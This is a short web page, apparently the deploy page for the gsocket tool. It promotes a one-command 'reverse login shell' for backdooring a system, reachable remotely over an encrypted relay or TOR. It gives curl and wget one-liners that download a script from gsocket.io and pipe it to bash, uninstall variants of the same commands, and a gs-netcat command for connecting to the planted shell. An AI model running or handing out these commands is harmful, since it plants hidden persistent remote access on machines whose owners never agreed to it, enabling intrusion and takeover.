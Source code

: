 ```yaml
---
layout: default
---
```


Deploy a reverse login shell with a single command (fully automated) - and access the shell remotely - encrypted - and via TOR if you like. 

> _This must be the quickest way to backdoor a system_
>                                                 -- anonymous

Use either one of these two commands to _deploy_:
```shell
bash -c "$(curl -fsSL gsocket.io/x)"
```

```shell
bash -c "$(wget -qO- gsocket.io/x)"
```

Use either one of these two commands to _uninstall_:
```shell
GS_UNDO=1 bash -c "$(curl -fsSL gsocket.io/x)"
```
```shell
GS_UNDO=1 bash -c "$(wget -qO- gsocket.io/x)"
```

Access the remote host from anywhere in the world:
```shell
$ gs-netcat -s ExampleSecretChagneMe -i
```
---
{:refdef: style="text-align: center;"}
EXAMPLE
{: refdef}
Install
{:refdef: style="text-align: center;"}
![Deploy-Example](../assets/images/deploy-example.png)
{: refdef}
Login
{:refdef: style="text-align: center;"}
![Deploy-Login](../assets/images/deploy-login.png)
{: refdef}
---
Check out our [GitHub Page](https://github.com/hackerschoice/gsocket) for more fun.  

Get Involved. We are looking for volunteers to work on the website and a logo and to discuss new ideas. [Join us on telegram](https://t.me/thcorg).


